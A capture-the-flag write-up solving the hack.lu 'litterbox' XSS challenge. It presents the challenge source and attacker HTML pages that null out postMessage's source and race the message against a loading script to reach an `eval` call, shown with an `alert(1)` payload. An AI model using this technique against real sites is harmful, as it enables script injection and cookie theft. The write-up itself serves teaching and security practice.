



## Description
> Do you like Cats? Do you like XSS? If you answered "Yes" to one of these questions, this challenge is for you: https://litterbox.cf

> Proof you have XSS by stealing the cookie (sameSite:None and secure) from the admin. You can use the bot from "Secret Image Sharing". Send him your links here: https://submit.onlysecrets.flu.xxx

# The challenge
First of all, I want to give a huge shoutout to [@fluxfingers](https://twitter.com/fluxfingers) for organizing this years hack.lu CTF. It was amazing: the beautiful theme, creative and no guessing challenges, and no technical problems. 

## Source Code
The challenge was purely a XSS challenge, so no server side trickeries. The source code was also very short:
```html
<html>
    <body>
        <script>
            window.onmessage = (e) => {
                if (e.source == window.frames[0]){
                        eval(e.data) // 😽
                }
            }
        </script>

        <script src='main.js'></script>
        <iframe id='litterbox' sandbox></iframe>
    </body>
</html>
```

The source code of main.js:
```js
(async () => {
    const urlParams = new URLSearchParams(location.search)
    let src = urlParams.get('src') ? urlParams.get('src') : 'sandbox.html'
    // make sure its up
    try{
        await fetch(src, {mode: 'no-cors', cache: 'no-cache'})
    }
    catch(e){
        console.log('noooo hecking')
        return
    }
    litterbox.src = src   
})()
```
The goal was to steal a cookie set by the bot we submit a URL to.
It's pretty clear that we need to somehow pass the condition on line 5 in index.html to eval our own javascript to extract the cookie. So let's get started!

# The solution

## Baby steps
To reach the `eval` call, we first need to execute `onmessage`. This can be done by calling `postMessage` on the window. Let's give it a try by embedding the site in an iframe of one of our own controlled websites and execute postMessage on it:

 ```html
 <html>
<html>
  <body>
    <iframe id="litterbox_website"></iframe>

    <script>
      litterbox_website.src = "https://litterbox.cf/"
      litterbox_website.onload = () => {
        litterbox_website.contentWindow.postMessage("yolo", "*") // --> '*' is used to allow to post messages cross domain
      }
    </script>
  </body>
</html>
 ```

Setting a breakpoint on `onmessage`, we can see that the event is triggered:


Ok, now to the intersting part. We need to somehow pass the condition `e.source == window.frames[0]`.
 
 ## Bypassing `e.source == window.frames[0]`

Using the example code before, we can see in the debugger, that `e.source` is the window containing our (attacker's) website (the one wehre `postMessage` was executed on).

`window.frames[0]` is the window of the sandboxed iframe included at the end of the challenge website. At first sight, one might think that there are only 2 possibilities to make `e.source == window.frames[0]` evaluate to true:
### 1. make `e.source` reference the same object as `window.frames[0]`
If we want to change `e.source` to be the same as `window.frames[0]`, we would need to execute the `postMessage`function from inside the sandboxed iframe. However, as the iframe is sandboxed, there is no way to execute javascript inside and therefore there is also no way to execute `postMessage` inside of it.

### 2. make `window.frames[0]` reference the same object as `e.source`
For this, we would need the first embedded iframe on the litter box site to be the one that exectues `postMessage`. As there is no way to change the DOM on the website, it is impossible to add an own controlled iframe that is not sandboxed before the sandboxed iframe. What now?

### The third possibility: I thought there were only 2 possibilities
What if we could change both `e.source` and `window.frames[0]`??
I knew of a way to make `e.source` equal to `null`. 

##### Make `e.source` be `null`
One can force `e.source` to be `null` by destroying the window that executed the `postMessage` before the `onMessage`is received by the other window! Let's give it a shot:

```html
<html>
<html>
  <body>
    <iframe id="litterBoxWebsite"></iframe>

    </div>
    <script>
      let postMessageWithNullSource = (message) => {
        let newWindow = document.createElement("iframe")
        document.body.appendChild(newWindow)
        newWindow.contentWindow
              .eval(`top.litterBoxWebsite.contentWindow.postMessage('${message}', '*')`)
        document.body.removeChild(newWindow) // --> remove the window that executed postMessage so that e.source will be null
      }

      litterBoxWebsite.src = "https://litterbox.cf/"
      litterBoxWebsite.onload = () => {
        postMessageWithNullSource("yolo") // --> same as postMessage, but e.source will be null
      }
    </script>
  </body>
</html>
 ```

Checking `e.source` on the breakpoint:



Nice! We got the left-hand side of the condition to be `null`. Let's check the equality table what the right side needs to be to make it pass:


([Image Source](https://algassert.com/visualization/2014/03/27/Better-JS-Equality-Table.html))

So the right hand side of the condition (`window.frames[0]`) needs to be eiter `null` or `undefined`.

##### Make `window.frames[0]` be `undefined`
The only way I could think of making `window.frames[0]` be `undefined` was by removing the sandboxed iframe from the DOM. But there was no way to modify the DOM.

That's when I got the idea that maybe it was possible to trigger the `onmessage` event before the whole HTML Document was loaded.
If we managed to execute the `onmessage` event before the document loading reached the sandboxed iframe element, we would have `window.frames[0]` being `undefined`.

But is this possible? Is it possible that our postMessage will be handled by the Javscript Scheduler while the HTML Document is being parsed? The answer is no. HOWEVER: if there is a script element that is not async, the HTML Parsing is stopped and the Javascript Scheduler is waiting until the script is finished loading over the network.


([Image Source](https://flaviocopes.com/javascript-async-defer/))

During this time that the script is loading, the Javascript Scheduer is free to do other sutf: including processing received `postMessage` events that are not handled yet!

So let's try to race condition postMessage/onmessage to execute while the `main.js` script is loading:

```html
<html>
<html>
  <body>
    <iframe id="litterBoxWebsite"></iframe>

    </div>
    <script>

      let postMessageWithNullSource = (message) => {
        let newWindow = document.createElement("iframe")
        document.body.appendChild(newWindow)
        newWindow.contentWindow.eval(`top.litterBoxWebsite.contentWindow.postMessage("${message}", '*')`)
        document.body.removeChild(newWindow)
      }

      let stopTryRaceConditioning = false
      let raceCondition = () => {
        postMessageWithNullSource("alert(1)")
        if (!stopTryRaceConditioning) { // <-- repeat until iframe is fully loaded
          setTimeout(raceCondition, 1) // <-- repeat after one ms, let scheduler do other stuff during that time
        }
      }

      litterBoxWebsite.src = "https://litterbox.cf/?src=data:,"
      litterBoxWebsite.onload = () => { 
        stopTryRaceConditioning = true
      }
      raceCondition()
    </script>
  </body>
</html>
```

If we are a bit lucky, the scheduler has time to execute our postMessage request during the laoding of the `script.js`, which is before the sandboxed iframe is in the DOM. As a result `e.source == window.frames[0]` <==> `null == undefined` <==> `true`

Using the chrome profiler, one can see that onmessage is called between the two parseHtml parts:



I guess I was pretty lucky that it worked first try. Sometimes, the Javascript scheduler is just not fast enough to process our postMessage request before the `script.js` has finished loading. In that case, one can simply repeat the whole process until successful.  